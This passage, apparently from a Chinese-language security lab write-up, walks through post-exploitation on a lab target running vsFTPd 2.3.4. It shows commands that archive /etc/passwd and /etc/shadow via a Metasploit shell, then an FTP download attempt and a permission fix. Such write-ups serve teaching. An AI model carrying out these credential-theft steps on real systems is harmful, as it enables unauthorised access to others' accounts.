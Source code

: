 ```shell
Changing the user information for newuser
Enter the new value, or press ENTER for the default
        Full Name []: 
        Room Number []: 
        Work Phone []: 
        Home Phone []: 
        Other []: 
y
Is the information correct? [y/N] y
sh: line 10: y: command not found
cd /home/newuser
tar czvf user.tgz /etc/passwd /etc/shadow
tar: Removing leading `/' from member names
/etc/passwd
/etc/shadow
```

![2.2-攻击1](https://raw.githubusercontent.com/BIIIANG/pic/main/202204290044610.png)

![2.3-攻击2](https://raw.githubusercontent.com/BIIIANG/pic/main/202204290044570.png)

- 之后在一个新的终端与靶机建立`FTP`连接，并下载`user.tgz`文件，此次下载失败：

```shell
[12:26:20] xubiang:EXP2 $ ftp 192.168.2.110
Connected to 192.168.2.110.
220 (vsFTPd 2.3.4)
Name (192.168.2.110:xubiang): newuser
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> system
215 UNIX Type: L8
ftp> binary
200 Switching to Binary mode.
ftp> get user.tgz
local: user.tgz remote: user.tgz
229 Entering Extended Passive Mode (|||50156|).
550 Failed to open file.
```

![2.6-下载1](https://raw.githubusercontent.com/BIIIANG/pic/main/202204290044002.png)

- 此时由于权限错误，回到`Metasploit`中得到的`shell`窗口，修改文件的权限：

```shell
chmod 644 user.tgz
```

![2.4-攻击3](https://raw.githubusercontent.com/BIIIANG/pic/main/202204290044725.png)
